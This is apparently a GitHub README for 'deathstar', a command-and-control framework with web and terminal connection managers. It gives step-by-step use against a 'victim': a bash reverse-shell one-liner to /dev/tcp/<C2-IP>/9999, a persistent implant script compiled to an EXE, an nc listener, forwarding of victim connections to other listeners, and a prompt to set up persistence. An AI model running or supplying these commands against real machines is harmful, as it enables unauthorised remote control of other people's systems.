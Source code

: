 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
  - `python3 deathstar-web.py`

1. Open link in web browser

```firefox 127.0.0.1:5000```



# Start CLI C2 server
`python3 deathstar-term.py`



# Have Victim connect to C2 
Linux / MacOS

- This will drop the moment the C2 server 'drops'
`bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`

OR

- This will continue to connect to the C2 server even after it 'drops'
`./stardestroyer.py &`

# Start your listener 
`nc -nvlp 4444`

# Forward the connection to another listener
On the webpage, type the IP of the listening device, and then click forward.

OR

On the terminal, list the connections.

Select `2)` to forward.

Specify the `ID` of the `VICTIM` you'd like to forward.

Then, type the IP of your `LISTENING` device.

# Catch the connection
Once you've caught the connection, begin setting up persistence.

# Wash, rince, repeat.

